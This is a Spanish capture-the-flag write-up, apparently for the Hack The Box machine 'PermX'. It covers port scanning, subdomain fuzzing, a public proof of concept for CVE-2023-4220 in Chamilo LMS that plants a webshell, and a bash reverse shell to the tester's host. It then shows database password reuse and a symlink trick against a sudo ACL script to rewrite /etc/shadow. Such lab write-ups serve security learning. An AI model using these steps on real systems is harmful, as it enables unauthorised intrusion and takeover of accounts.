










Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.11.23
Host is up, received user-set (0.27s latency).
Scanned at 2024-09-10 17:21:24 -03 for 18s
Not shown: 63043 closed tcp ports (reset), 2490 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p22,80 10.10.11.23
Host is up (0.28s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_ 256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Vemos que el sitio hace un redirect a permx.htb, por lo que lo cargamos en nuestro /etc/hosts. Ahora si accedemos al sitio vemos lo siguiente:
Vamos a hacer fuzzing de directorios para intentar encontrar alguno oculto, pero no encontramos nada. Por lo que vamos a intentar buscar subdominios:
wfuzz -c --hw=26 -t 20 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.permx.htb" http://permx.htb

Encontramos uno interesante: lms. Lo cargamos en el archivo hosts y accedemos:

Vamos a buscar nuevamente directorios pero ahora a raíz de este subdominio:
gobuster dir -u http://lms.permx.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt

Dentro de documentation vemos que la versión de Chamilo es la 1.11:

Intrusión
Buscamos vulnerabilidades para esto en internet y damos con que es posible la ejecución remota de código. Esto está asociado al CVE-2023-4220.
Vamos a utilizar el siguiente repositorio: https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
Tal como lo indica, inicialmente tenemos un checker para validar si efectivamente es vulnerable:
python3 main.py -u http://lms.permx.htb/ -a scan
Obtenemos el siguiente output:
Ahora, nos ofrece crear una webshell con el siguiente comando:
python3 main.py -u http://lms.permx.htb/ -a webshell
Vamos a probarlo:
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=id
Funciona! Tenemos ejecución remota de código:

Nos quedamos a la escucha en el puerto 443 y obtenemos una Shell ejecutando lo siguiente:
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.21/443 0>%261'

Hacemos un tratamiento de la TTY para trabajar más cómodos.
Escalación de privilegios
www-data --> mtz
Estamos como el usuario www-data. Vemos que existe el usuario mtz.
Empezamos a inspeccionar y recorrer el servidor. Dentro del directorio /var/www/chamilo hay un archivo cli-config.php que contiene información sobre la inicialización de la base de datos:
<?php
/* For licensing terms, see /license.txt */
/**
* Script needed to execute bin/doctrine.php in the command line
* in order to:.
*
* - Generate migrations
* - Create schema
* - Update schema
* - Validate schema
* - Etc
*/
use Doctrine\ORM\Tools\Console\ConsoleRunner;
require_once __DIR__.'/vendor/autoload.php';
//require_once __DIR__.'/main/inc/lib/api.lib.php';
$configurationFile = __DIR__.'/app/config/configuration.php';
if (!is_file($configurationFile)) {
echo "File does not exists: $configurationFile";
exit();
}
require_once __DIR__.'/main/inc/global.inc.php';
require_once $configurationFile;
$database = new \Database();
$dbParams = [
'driver' => 'pdo_mysql',
'host' => $_configuration['db_host'],
'user' => $_configuration['db_user'],
'password' => $_configuration['db_password'],
'dbname' => $_configuration['main_database'],
];
$database->connect($dbParams, realpath(__DIR__).'/', realpath(__DIR__).'/');
$entityManager = $database::getManager();
$helperSet = ConsoleRunner::createHelperSet($entityManager);
$dialogHelper = new Symfony\Component\Console\Helper\QuestionHelper();
$helperSet->set($dialogHelper);
return $helperSet;
?>
Vemos que al parecer la configuración está dentro de app/config/configuration.php. El archivo es extenso, pero al inicio, vemos que están los datos de conexión:
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
* This file contains a list of variables that can be modified by the campus site's server administrator.
* Pay attention when changing these variables, some changes may cause Chamilo to stop working.
* If you changed some settings and want to restore them, please have a look at
* configuration.dist.php. That file is an exact copy of the config file at install time.
* Besides the $_configuration, a $_settings array also exists, that
* contains variables that can be changed and will not break the platform.
* These optional settings are defined in the database, now
* (table settings_current).
*/
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
Nos conectamos a la base de datos:
mysql -u chamilo -D chamilo -p
Navegando las tablas, vemos que existe una user:

Intentamos desencriptar el hash asociado al usuario admin pero sin éxito.
Ya que tenemos una contraseña, vamos a probar si se reutilizó para el usuario mtz. Probamos ingresar y tenemos éxito!

Desde aquí podemos ver la primer flag:
mtz --> root
Si ejecutamos sudo -l, vemos que el usuario mtz puede ejecutar el binario /opt/acl.sh como root sin especificar contraseña:

El script acl.sh tiene el siguiente contenido:
#!/bin/bash
if [ "$#" -ne 3 ]; then
/usr/bin/echo "Usage: $0 user perm file"
exit 1
fi
user="$1"
perm="$2"
target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
/usr/bin/echo "Access denied."
exit 1
fi
# Check if the path is a file
if [ ! -f "$target" ]; then
/usr/bin/echo "Target must be a file."
exit 1
fi
Es decir, el script permite modificar el permiso de archivos que se encuentren dentro del directorio /home/mtz. Recibe como argumentos el usuario, permiso y el archivo.
Como podemos ejecutarlo como root, podemos intentar modificar los permisos de algún archivo crítico como /etc/shadow. Este archivo claramente no está dentro de /home/mtz, por lo que crearemos un enlace simbólico de la siguiente manera:
ln -s /etc/shadow tmpfile

Ahora, ejecutaremos el script de la siguiente manera:
sudo /opt/acl.sh mtz rw /home/mtz/tmpfile
Próximo paso, generaremos el hash asociado a una contraseña para el usuario root, por ejemplo, password123:
openssl passwd -1 -salt abc password123
Obtenemos el siguiente output:
$1$abc$UWUoROXzUCsLsVzI0R2et.
Ahora editamos el archivo tmpfile y modificamos el hash asociado a la contraseña de root. Luego, al intentar cambiar, especificamos la contraseña definida por nosotros: password123:
Ya somos root! Desde aquí vemos la segunda flag.